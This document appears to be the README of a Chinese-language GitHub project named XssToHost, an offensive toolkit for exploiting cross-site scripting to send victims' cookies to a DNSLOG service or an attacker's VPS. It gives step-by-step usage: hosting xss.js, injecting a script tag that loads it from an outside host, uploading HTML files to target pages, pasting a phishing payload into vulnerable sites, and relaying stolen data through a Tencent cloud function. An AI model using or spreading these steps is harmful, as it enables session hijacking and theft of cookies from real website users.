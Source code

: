 # XssToHost

通过js跨域请求到DNSLOG平台或自己的VPS主机，并实现cookie外带  

## Usage 

1.将xss.js中的http地址改为带有监听功能的服务器，比如DNSLOG或者开了监听的VPS  
2.将xss.js部署在自己的VPS上  
3.当可以打xss时，可用

```html
<script src="http://exmaple.com/xss.js"></script>
```

方式远程加载此文件  
4.如遇到可上传HTML并解析的情况，可将xss.html上传到目标页面，远程加载xss.js  

5.xss2.html与xssfish.html为实战型，修改相关域名直接将html内的语句复制到有xss位置的地方即可  

6.SCFxss.py为腾讯云函数配置文件，修改文件中的EXAMPLE.COM为自己的VPS或者DNSLOG后，直接在云函数中配置即可，触发器为api网关，勾选集成响应，额外的可勾选CORS，并根据官方提示新建相应插件并绑定API即可  
